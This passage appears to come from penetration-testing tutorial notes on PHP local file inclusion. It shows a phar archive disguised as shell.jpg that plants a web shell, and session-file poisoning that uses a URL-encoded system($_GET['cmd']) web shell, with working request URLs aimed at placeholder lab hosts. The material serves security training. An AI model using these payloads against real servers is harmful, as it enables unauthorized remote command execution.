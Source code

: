 $phar->stopBuffering();
```

This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:
```
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
we can call it with phar:// and provide its URL path, and then specify the phar sub-file with /shell.txt (URL encoded) to get the output of the command we specify with (&cmd=id)

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```





## Log Poisoning




#### PHP Session Poisoning

Most PHP web applications utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in session files on the back-end, and saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows.


The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.

So, let's first check if we have a PHPSESSID cookie set to our session

- include this session file 

```http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd```


Let's try setting the value of page a custom value (e.g. language parameter) and see if it changes in the session file. We can do so by simply visiting the page with ?language=session_poisoning specified, as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```


Now, let's include the session file once again to look at the contents: 
```http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd```


This time, the session file contains session_poisoning instead of es.php, which confirms our ability to control the value of page in the session file. Our next step is to perform the poisoning step by writing PHP code to the session file. We can write a basic PHP web shell by changing the ?language= parameter to a URL encoded web shell, as follows:

```http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E```

we can include the session file and use the &cmd=id to execute a commands: 

```